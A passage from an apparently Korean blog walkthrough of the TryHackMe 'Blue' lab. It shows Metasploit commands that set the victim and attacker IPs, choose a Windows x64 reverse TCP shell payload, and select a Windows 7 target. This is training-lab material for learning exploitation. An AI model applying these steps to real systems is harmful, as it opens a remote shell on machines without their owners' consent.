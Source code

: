 이를 실행하여 설정할 수 있습니다:



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

set rhosts [피해자 IP]
set lhost [tun0 IP 또는 공격 상자 IP]
set payload windows/x64/shell/reverse_tcp

위 단계를 마치면 옵션을 실행하여 설정한 모든 옵션을 확인하여 올바른지 확인할 수 있습니다.

![이미지](/assets/img/2024-06-23-TryHackMeBlue_4.png)

또한 언급을 잊은 더 하나의 옵션을 설정할 수 있습니다. 그것은 목표입니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

피해자 기기의 운영 체제를 알고 있기 때문에 다음 명령을 실행할 수 있습니다:

```js
show targets
set target 1
```

![image](/assets/img/2024-06-23-TryHackMeBlue_5.png)

여기에는 취약점에 대한 사용 가능한 대상이 표시되며, 우리가 원하는 대상을 설정합니다. 이 경우 Windows 7입니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
